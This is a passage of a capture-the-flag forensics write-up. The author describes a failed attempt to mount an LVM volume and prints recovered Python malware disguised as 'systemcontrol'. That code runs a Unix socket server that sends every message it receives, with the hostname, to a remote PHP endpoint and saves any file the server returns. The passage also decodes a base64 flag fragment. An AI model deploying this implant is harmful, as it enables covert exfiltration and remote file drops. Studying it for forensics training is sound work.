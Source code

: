 
During the writeup tho....
```
mount /dev/mapper/cs_simonserver-root /mnt/lvm_root/
mount: /mnt/lvm_root: can't read superblock on /dev/mapper/cs_simonserver-root.
       dmesg(1) may have more information after failed mount system call.
```
And I spend a couple hour retrying to mount that thing, but I ran out of time
Fortunately I still have half the flag that I extracted so I can still explain the challenge

I cheked the log in /var/log and found out some python process that crashed `systemcontrol`
```python
#!/usr/bin/env python3

from socketserver import UnixStreamServer, StreamRequestHandler, ThreadingMixIn
import os
import socket
import requests
import time
import base64

# RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==

sockFile = "/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock"
url = 'https://REDACTED/cgi-bin/614af1b65d944d989a457c21a39b4377.php'
try:
    os.remove(sockFile)
except OSError:
    pass

class Handler(StreamRequestHandler):
    def handle(self):
        while True:
            msg = self.rfile.readline()
            if msg:
                response = requests.post(url+'?op=upload', json={
                    'data': base64.b64encode(msg).decode('utf-8'),
                    'id': self.connection.fileno(),
                    'time': int(time.time()),
                    'hostname': socket.gethostname()
                })

                if response.headers.get('Content-Disposition'):
                    filename = response.headers['Content-Disposition'].split('filename=')[1].strip('"')
                    with open(filename, 'wb') as f:
                        f.write(response.content)
            else:
                return

class ThreadedUnixStreamServer(ThreadingMixIn, UnixStreamServer):
    pass

with ThreadedUnixStreamServer(sockFile, Handler) as server:
    os.chmod(sockFile, 0o0777);
    server.serve_forever()
```
Might not be the EXACT same code as I played with it a little bit
The 2nd part of the flag is in `b64`
`RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==`
`Flag Part 2: _h3r3_hahahaha}`

